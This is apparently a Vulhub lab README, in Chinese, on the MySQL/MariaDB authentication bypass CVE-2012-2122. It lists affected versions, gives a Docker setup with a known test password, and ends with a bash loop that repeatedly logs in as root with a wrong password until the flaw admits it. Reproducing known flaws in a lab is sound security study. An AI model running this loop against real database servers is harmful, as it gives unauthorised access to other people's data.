 # MySQL 身份认证绕过漏洞 CVE-2012-2122

## 漏洞描述

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。

参考链接：

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## 漏洞影响

```
MariaDB 5.1.62, 5.2.12, 5.3.6, 5.5.23
MySQL 5.1.63, 5.5.24, 5.6.6
```

## 环境搭建

经过测试，本环境虽然运行在容器内部，但漏洞是否能够复现仍然与宿主机有一定关系。宿主机最好选择Ubuntu或Mac系统，但也不知道是否一定能够成功，欢迎在Issue中提交更多测试结果。

执行如下命令启动测试环境：

```
docker-compose up -d
```

Vulhub环境启动后，将启动一个Mysql服务（版本：5.5.23），监听3306端口，通过正常的Mysql客户端，可以直接登录的，正确root密码是123456。

## 漏洞复现

在不知道我们环境正确密码的情况下，在bash下运行如下命令，在一定数量尝试后便可成功登录：

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

![image-20220226224914186](images/202202262249365.png)
